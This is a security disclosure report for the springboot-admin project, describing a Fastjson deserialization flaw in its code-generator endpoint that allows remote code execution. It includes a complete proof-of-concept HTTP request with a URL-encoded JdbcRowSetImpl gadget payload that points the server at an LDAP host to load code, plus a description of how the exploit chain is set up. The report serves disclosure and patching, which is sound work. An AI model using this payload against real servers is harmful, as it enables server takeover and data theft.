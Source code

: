 **[springboot-admin](https://github.com/opplus/springboot-admin) Vulnerability Risk Report**

**Vulnerability Location:**
In the `@RequestMapping("/code")` endpoint of the `SysGeneratorController.java` class, specifically in the `JSON.parseArray(tables)` call.

![image-20250328185805310](img\image-20250328185805310.png)

**Vulnerability Description:**
The code uses the Fastjson library without enabling SafeMode or disabling AutoType features. The `JSON.parseArray()` method directly parses unvalidated user input (`tables` parameter). When using Fastjson ≤1.2.83, an attacker could craft malicious JSON data to achieve **Remote Code Execution (RCE)**.

![image-20250328182148905](img\image-20250328182148905.png)
The project is using a vulnerable version of Fastjson.

**Impact:**

- Remote Code Execution (RCE)
- Sensitive server data leakage
- Full server compromise

POC：

```
GET /vgk/dev/admin/sys/generator/code?X-Token=0a5e52568d4e5909d8c18e713c7bc50a&tables=[%7b%22%65%22%3a%7b%22%40%74%79%70%65%22%3a%22%6a%61%76%61%2e%6c%61%6e%67%2e%43%6c%61%73%73%22%2c%22%76%61%6c%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%7d%2c%22%66%22%3a%7b%22%40%74%79%70%65%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%2c%22%64%61%74%61%53%6f%75%72%63%65%4e%61%6d%65%22%3a%22%6c%64%61%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%30%31%32%2f%4f%62%6a%65%63%74%22%2c%22%61%75%74%6f%43%6f%6d%6d%69%74%22%3a%74%72%75%65%7d%7d] HTTP/1.1
Host: 172.20.10.3:8889
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.3:8889/vgk/dev/admin/modules/sys/generator.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=bf1aebc9-2d47-47e5-8480-701256c9f1cc
x-forwarded-for: 127.0.0.1
Connection: close


```

**Proof of Vulnerability:**

Establish an LDAP service and load malicious code to exploit the deserialization flaw.![image-20250328182626670](img\image-20250328182626670.png)

Exploitation via Malicious Tables Parameter

![image-20250328183031757](img\image-20250328183031757.png)

Successful code execution

![image-20250328183135349](img\image-20250328183135349.png)